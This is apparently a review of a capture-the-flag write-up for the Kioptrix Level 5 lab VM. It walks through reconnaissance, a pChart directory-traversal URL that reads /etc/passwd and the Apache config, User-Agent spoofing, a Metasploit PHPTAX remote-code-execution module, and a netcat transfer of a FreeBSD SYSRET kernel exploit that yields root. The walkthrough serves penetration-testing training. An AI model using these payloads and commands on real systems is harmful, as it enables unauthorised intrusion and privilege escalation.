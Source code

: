# Kioptrix 5

This challenge involves exploiting a virtual machine named "Kioptrix Level 5." The objective is to gain root access by identifying and leveraging vulnerabilities within the system.

## Attack plan:

1.  **Reconnaissance (netdiscover, nmap):**
    *   **`netdiscover`:**  To identify the target VM's IP address (192.168.1.159) on the local network. The output also correctly identifies the MAC address and vendor (VMware).
    *   **`nmap -sS -A -n 192.168.1.159`:**  `nmap` command. Let's break it down:
        *   `-sS`:  SYN Stealth Scan. This is a fast and relatively stealthy scan that doesn't complete the full TCP three-way handshake.
        *   `-A`:  Enable OS detection, version detection, script scanning, and traceroute. This provides a lot of valuable information.
        *   `-n`:  Disable DNS resolution. This speeds up the scan, as it avoids potentially slow DNS lookups.
    *   **Findings:**  `nmap` identifies ports 80 (HTTP) and 8080 (HTTP) as open, running Apache 2.2.21. It also correctly guesses the OS as FreeBSD. The "403 Forbidden" on port 8080 is a crucial clue.

2.  **Initial Web Exploration (HTTP/80):**
    *   We correctly identifies that port 80 is accessible and displays a basic "It works!" page. This is a common default page for Apache.

3.  **Vulnerability Scanning (nikto):**
    *   **`nikto -h 192.168.1.159`:**  `nikto` is a web server scanner that checks for outdated software, dangerous files/CGIs, and other common vulnerabilities.
    *   **Findings:** `nikto` identifies several issues:
        *   Outdated Apache, PHP, mod_ssl, and OpenSSL versions. This is a significant finding, as outdated software often contains known vulnerabilities.
        *   Missing security headers (X-Frame-Options, X-XSS-Protection, X-Content-Type-Options). These headers help protect against various web attacks (clickjacking, XSS, MIME sniffing).
        *   **CVE-2002-0082:**  This is a critical vulnerability in mod_ssl 2.8.7 and lower, allowing for a remote buffer overflow. We note that attempts to exploit this directly failed, which is important. It shows a good understanding that not all identified vulnerabilities are easily exploitable.
        *   HTTP TRACE method enabled. This could potentially be used for Cross-Site Tracing (XST) attacks.

4.  **Directory Enumeration (dirb):**
    *   **`dirb http://192.168.1.159`:**  `dirb` is a web content scanner that brute-forces directories and files using a wordlist.
    *   **Findings:**  Initially, `dirb` finds only `/cgi-bin/` (forbidden) and `/index.html`. This is where the challenge shows good problem-solving skills. The lack of results from `dirb` prompts further investigation.

5.  **Source Code Review:**
    *   Examining the source code of `index.html` reveals a commented-out meta refresh tag: `<!-- <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php"> -->`.  This is a *critical* finding. It points to a potentially hidden application, pChart.

6.  **pChart Vulnerability (Directory Traversal):**
    *   We correctly navigates to the pChart directory.
    *   **Google Search:**  A quick search for "pChart 2.1.3 vulnerabilities" reveals a directory traversal vulnerability. This is a classic example of how OSINT (Open Source Intelligence) is used in penetration testing.
    *   **Exploitation:**  The challenge uses the following URL: `http://192.168.1.159/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`. This successfully reads the `/etc/passwd` file.
        *   `%2f` is the URL-encoded form of `/`.
        *   `..` is the "parent directory" notation.  By using `..%2f..%2f`, we navigate up the directory structure to reach the root directory (`/`) and then accesses `/etc/passwd`.

7.  **Apache Configuration File Analysis:**
    *   **`httpd.conf`:**  The challenge leverages the directory traversal vulnerability to read the Apache configuration file (`/usr/local/etc/apache22/httpd.conf`). This is a smart move, as configuration files often contain sensitive information.
    *   **Findings:** The `httpd.conf` file reveals:
        *   The location of the error log (`/var/log/httpd-error.log`).
        *   A `VirtualHost` configuration for port 8080.  This explains why port 8080 was returning a 403 error.
        *   The `DocumentRoot` for port 8080 is `/usr/local/www/apache22/data2`.
        *   Crucially, access to port 8080 is restricted based on the `User-Agent` header: `Allow from env=Mozilla4_browser`. This means only requests with a specific User-Agent string are allowed.

8.  **User-Agent Spoofing:**
    *   The challenge correctly modifies the Firefox User-Agent using `about:config`. This is a common technique to bypass User-Agent restrictions.
    *   `general.useragent.override` is set to `Mozilla/4.0 (X11; Linux x86_64; rv:10.0) Gecko/20100101 Firefox/10.0`. This matches the required `Mozilla4_browser` condition.

9.  **Accessing Port 8080 (PHPTAX):**
    *   With the modified User-Agent, the challenge successfully accesses port 8080, revealing a link to a "Tax Return Program" called PHPTAX.

10. **PHPTAX Vulnerability (Remote Code Execution):**
    *   **Google Search:**  Another Google search reveals that PHPTAX is vulnerable to a Remote Code Execution (RCE) attack.
    *   **Metasploit:**  The challenge uses Metasploit (`msfconsole`) to exploit the vulnerability:
        *   `use exploit/multi/http/phptax_exec`:  Selects the appropriate exploit module.
        *   `set RHOST 192.168.1.159`: Sets the target IP address.
        *   `set RPORT 8080`: Sets the target port.
        *   `run`: Executes the exploit.
    *   **Result:** The exploit is successful, providing a shell as the `www` user.

11. **Shell Upgrade:**
    *   `/bin/sh -i`:  The challenge upgrades the initial shell to an interactive shell. This is important for better control and functionality.

12. **Privilege Escalation (SYSRET):**
    *   **`uname -a`:**  The challenge uses `uname -a` to determine the FreeBSD version (9.0-RELEASE).
    *   **Google Search:**  A search reveals that FreeBSD 9.0 is vulnerable to the Intel SYSRET kernel privilege escalation exploit.
    *   **Exploit Transfer (netcat):**
        *   The challenge uses `netcat` (`nc`) to transfer the exploit code (saved as `sys.c`) from the Kali machine to the Kioptrix VM. This is a standard technique for transferring files during a penetration test.
        *   On Kali: `nc -lvp 1234 < sys.c` (listens on port 1234 and sends the contents of `sys.c`).
        *   On Kioptrix: `nc -nv 192.168.1.3 1234 > sys.c` (connects to Kali on port 1234 and saves the received data to `sys.c`).
    *   **Compilation and Execution:**
        *   `gcc sys.c`: Compiles the exploit code.
        *   `./a.out`: Executes the compiled exploit.
    *   **Result:** The exploit is successful, granting root access (`whoami` returns `root`).

**Key Takeaways and Improvements**

*   **Layered Security:** The VM demonstrates the importance of layered security. Multiple vulnerabilities had to be chained together to achieve root access.
*   **OSINT:** The challenge heavily relies on OSINT (Google searches) to identify vulnerabilities. This is a crucial skill for penetration testers.
*   **Configuration Review:**  Reading the `httpd.conf` file was essential to understanding the access restrictions on port 8080.
*   **Manual Exploitation:** The challenge shows a good mix of automated tools (nmap, nikto, dirb, Metasploit) and manual techniques (source code review, User-Agent spoofing, netcat file transfer).
*   **Persistence (Optional):**  After gaining root access, a real-world attacker would likely establish persistence (e.g., adding a backdoor user, installing a rootkit). This wasn't covered in the challenge, but it's an important consideration.
* **ErrorLog Analysis (Suggestion):** Since the challenge identified the location of Apache's error log, it would've been a great idea to try to read it using the directory traversal vulnerability. Error logs can sometimes contain sensitive information or reveal further attack vectors. This could be done before or after finding the VirtualHost config.
* **Alternative Exploits (Suggestion):** Given the outdated versions of Apache, PHP, and OpenSSL, there might have been other, potentially simpler, exploits available. Exploring those could be an interesting exercise. For example, searching Exploit-DB for vulnerabilities related to those specific versions.

This challenge is excellent. It demonstrates a clear, methodical approach to penetration testing, combining reconnaissance, vulnerability analysis, exploitation, and privilege escalation. The use of various tools and techniques, along with the reliance on OSINT, makes it a valuable learning resource.
